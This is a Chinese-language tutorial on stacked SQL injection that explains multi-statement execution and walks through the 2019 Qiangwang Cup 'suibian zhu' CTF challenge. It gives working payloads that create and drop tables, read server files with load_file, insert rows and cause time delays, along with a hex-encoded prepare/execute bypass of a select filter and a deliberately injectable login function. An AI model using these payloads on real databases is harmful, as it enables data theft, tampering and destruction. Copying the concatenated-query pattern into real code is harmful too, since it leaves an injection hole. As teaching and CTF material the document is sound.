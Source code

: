 # 原创
：  【sql注入-堆叠注入】多语句执行、结合其他注入

# 【sql注入-堆叠注入】多语句执行、结合其他注入

**目录**

[堆叠注入](#extractvalue%28%29%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5)

[一、语法介绍](#%E4%B8%80%E3%80%81%E8%AF%AD%E6%B3%95%E4%BB%8B%E7%BB%8D%EF%BC%9A)

[二、漏洞示例](#%E4%BA%8C%E3%80%81%E6%8A%A5%E9%94%99%E5%8E%9F%E5%9B%A0)

[三、常见形式](#%C2%A0%E4%B8%89%E3%80%81%E5%B8%B8%E8%A7%81%E5%BD%A2%E5%BC%8F)

[网络安全O](#%E4%B8%89%E3%80%81%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E5%B0%8F%E5%9C%88%E5%AD%90)

---


## 堆叠注入

> 
<h3>一、语法介绍：</h3>
版本：
可以影响几乎所有的关系型数据库
<hr/>
原理：
将多条语句堆叠在一起进行查询，且可以执行多条SQL语句
语句之间以分号(;)隔开，其注入攻击就是利用此特点，在第二条语句中构造payload
<hr/>
优势：
联合查询union也可拼接语句（有局限性）
但是堆叠注入能注入任意语句
<hr/>
局限：
利用mysqli_multi_query()函数就支持多条sql语句同时执行
但实际情况中，PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_ query()函数，其只能执行一条语句，分号后面的内容将不会被执行

mysqli_query()函数:
<pre><code>mysqli_query($connection, $query);

//$connection：表示与MySQL服务器的连接，可以通过mysqli_connect()函数进行创建。
//$query：表示要执行的SQL查询语句。</code></pre>

<hr/>
使用：
有注入点：即存在sql注入漏洞
未过滤：即未对";"号进行过滤
未禁用：即未禁止执行多条sql语句

**第一步：使用堆叠查询构造多条语句**
select * from users where id=1;create table test like users; 

<hr/>
**第二步：查看语句是否成功执行**
show tables;

<hr/>
**第三步：删除test，再查询**
select * from users where id=1;drop table test;
show tables;
(被成功执行了)

 <img alt="" height="270" src="https://img-blog.csdnimg.cn/63269b1a31e24328ac25dae66007576d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6buR6Imy5Zyw5bimKOW0m-i1tyk=,size_18,color_FFFFFF,t_70,g_se,x_16" width="769"/>

<hr/>
** 第四步：执行其它查询语句**
查数据库当前用户，版本
select * from user where id=1;select 1,user(),database();


**其他操作：**
加载文件
select * from user where id=1;select load_file('文件路径');
修改数据
select * from user where id=1;insert into user(username,password) values ('好好学习','123456');




---


---


---


---


---


> 
<h3>二、漏洞示例</h3>
代码示例：
<pre><code>def login(username, password):
    query = "SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'"
    # 执行查询并验证用户登录信息
    ...
</code></pre>

login函数接收一个用户名和密码作为参数，并构建了一个SQL查询语句。然而，它没有对输入进行任何验证或转义，直接将用户提供的输入拼接到查询字符串中
如恶意代码：
<pre>`';select sleep(10);--+`</pre>

查询语句将变成：
<pre><code>SELECT * FROM users WHERE username='';select sleep(10);--+' AND password='...'
</code></pre>

如果存在注入的代码被执行，那么会执行sleep(10)函数，延时10s


---


> 
<h3> 三、常见形式</h3>

举例之：“强网杯2019随便注”
已知：words表能回显内容，`1919810931114514` 表不能回显具体内容，select被过滤了
<pre>`1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) ;show columns from words;#`</pre>
1、堆叠注入
';    开始堆叠
RENAME TABLE wordsTOwords1;   将名为words的表重命名为words1
RENAME TABLE 1919810931114514TOwords;  将名为1919810931114514的表重命名为words
ALTER TABLE wordsCHANGEflag id VARCHAR(100);   更改words表中名为flag的列的名称为id，并将其数据类型更改为VARCHAR(100)（最大长度为100个字符）
SHOW COLUMNS FROM words;   显示words表的所有列以及其属性和信息
#    注释掉代码的剩余部分

2、堆叠注入+select编码绕过
<pre>`;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#`</pre>



---


---


## 网络安全O

[README.md · 书半生/网络安全知识体系-实战中心 - 码云 - 开源中国 (gitee.com)<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.3.2/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N5K3"/>https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md](https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md)

[GitHub - BLACKxZONE/Treasure_knowledge<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.3.2/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N5K3"/>https://github.com/BLACKxZONE/Treasure_knowledge](https://github.com/BLACKxZONE/Treasure_knowledge)
